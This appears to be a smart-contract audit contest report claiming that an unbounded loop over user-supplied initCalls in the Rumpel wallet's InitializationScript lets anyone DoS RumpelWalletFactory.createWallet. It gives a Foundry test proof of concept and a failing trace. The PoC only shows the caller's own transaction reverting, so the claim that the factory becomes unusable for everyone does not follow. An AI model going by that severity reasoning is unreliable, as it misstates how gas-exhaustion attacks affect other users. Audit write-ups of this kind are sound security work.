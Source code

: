 Upbeat Berry Panther

High

# User can call RumpleWalletFactory.createWallet() with a 100,000 initial calls, causing Out-of-gas reverts, DoS'ing the RumpleWalletFactory unusable

### Summary

InitializationScript:20 initialize function has an unbounded for loop by looping through the initCalls array that is an input to the function. This function is called by the Safe's Safe.sol smart contracts when RumpleWalletFactory.createWallet() is called (which is an external function used to create RumpelWallets). The user can input a large array of initCalls and cause Out-of-gas DoS Attack.

### Root Cause

In InitializationScript:20 initialize function, there is a unbounded for loop on an arbitrary input array initCalls

https://github.com/sherlock-audit/2024-07-sense-points-marketplace/blob/main/rumpel-wallet/src/InitializationScript.sol#L20

### Internal pre-conditions

None

### External pre-conditions

None

### Attack Path

1. User calls RumpleWalletFactory.createWallet with 100,000 initial calls in the initCalls input array.
2. RumpleWalletFactory creates a SafeProxy -> Safe -> Which calls the InitializationScript.initialize function with the unbounded for loop in it
3. Looping through this array with a length of a 100000, it reverts with a Out-of-Gas
4. User can repeatedly call RumpleWalletFactory.createWallet and cause a DoS, making the Rumpel Wallet Factory unusable by anyone.


### Impact

DoS on the RumpelWalletFactory.createWallet function, rendering it unusable

### PoC

Add this test to RumpelWallet.t.sol after setup and run command - 


```solidity
function test_CreateWalletWithHundredThousandCallsOnDeploy() public {
        address[] memory owners = new address[](1);
        owners[0] = address(alice);

        // Call reverts if the call isn't allowed by the guard
        InitializationScript.InitCall[] memory initCalls = new InitializationScript.InitCall[](100000);
        for(uint256 i=0;i<100000;i++) {
            initCalls[i] =
            InitializationScript.InitCall({to: address(counter), data: abi.encodeCall(Counter.addToCount, (1))});
        }
        
        vm.prank(admin);
        rumpelGuard.setCallAllowed(address(counter), Counter.addToCount.selector, RumpelGuard.AllowListState.ON);
        initCalls[0] =
            InitializationScript.InitCall({to: address(counter), data: abi.encodeCall(Counter.addToCount, (1))});
        rumpelWalletFactory.createWallet{ gas: 3000000000000000000 }(owners, 1, initCalls);

        assertEq(counter.count(), 100000);
    }
```

```solidity
    │   │   │   └─ ← [MemoryLimitOOG] EvmError: MemoryLimitOOG
    │   │   └─ ← [Revert] EvmError: Revert
    │   └─ ← [Revert] EvmError: Revert
    └─ ← [Revert] EvmError: Revert

Suite result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 3.57s (2.19s CPU time)

Ran 1 test suite in 41.84s (3.57s CPU time): 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/RumpelWallet.t.sol:RumpelWalletTest
[FAIL. Reason: EvmError: Revert] test_CreateWalletWithHundredThousandCallsOnDeploy() (gas: 2906982425553575331)
```

### Mitigation

Add a limit on the number of initial calls that can be inputted when creating a Rumpel Wallet. Additionally, it is better practice to avoid unbounded for loops on arbitrary input lengths